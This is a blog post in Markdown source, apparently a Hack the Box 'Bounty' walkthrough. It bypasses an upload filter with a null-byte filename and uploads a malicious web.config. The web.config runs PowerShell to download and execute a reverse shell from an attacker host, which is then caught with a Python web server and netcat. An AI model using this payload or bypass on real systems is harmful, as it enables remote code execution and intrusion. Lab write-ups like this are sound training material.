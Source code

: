 ```yaml
---
layout: post
title:  "Bypassing File Upload Restrictions and Leveraging web.config"
author: nanobyte
date:   2021-09-13
description: How to leverage web.config for remote command execution after bypassing a file upload restriction
tags: PowerShell HTB_Walkthrough BypassUploadRestriction
---
```


<h3>Bypassing Upload Restrictions</h3>

The following attack was identified during Hack the Box's retired Bounty machine. In that vulnerable machine, there was access to a file upload. The goal was to achieve remote code execution from the file upload functionality. The application only took JPG extensions, all other file extensions were blocked. This restriction could be defeated by adding a null byte and the JPG extension at the end of a malicious filename.

To begin the attack, first use Burp Suite and enable intercept. Once ready, upload a file, in this scenario Kali Linux's cmdasp.aspx is being uploaded:

<center><img src="/images/posts/webconfig-writeup/image_1.png" alt="upload-file"></center>

Once intercepted, we can add our null byte after our ASPX extension, and then the required JPG extension:

<center><img src="/images/posts/webconfig-writeup/image_2.png" alt="burp-suite-intercept"></center>

If we were to send this to the server, we will see a successful file upload:

<center><img src="/images/posts/webconfig-writeup/image-3.png" alt="file-upload-success"></center>

However, if we navigate to this file, we would receive the following error:

<center><img src="/images/posts/webconfig-writeup/image-4.png" alt="file-load-error"></center>

With the presence of web.config present, and the ability to bypass file upload restrictions discovered, we can create a malicious web.config, and upload a version that is useful to us, as attackers.

<h3>Malicious web.config</h3>

We can create our own malicious web.config file, which contains a PowerShell command to download a reverse shell hosted on a web server:

{% highlight bash linenos %}
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />       
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.2/reverse.ps1')")
%>
{% endhighlight %}

Before you upload this file to the server, make sure that you host a PowerShell reverse shell hosted on your local machine. Here are some great PowerShell options available from <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell" target="_blank">PayloadAllTheThings</a>.

Once a PowerShell reverse shell is saved on your local machine, you must setup a web server to host this file. I generally usen a Python SimpleHTTPServer. This can be quickly setup with the following command, from the directory your reverse shell is saved in:

{% highlight bash linenos %}
python -m SimpleHTTPServer 80
{% endhighlight %}

Once the above is setup and ready to go, you can then upload the malicious web.config file. You must perform the same bypass restriction, adding the required null byte and JPG extension. Once on the server, open a NetCat listener, and open the web.config file on the web server. Completing the above, a reverse connection was received:

<center><img src="/images/posts/webconfig-writeup/image-5.png" alt="burp-suite-intercept"></center>
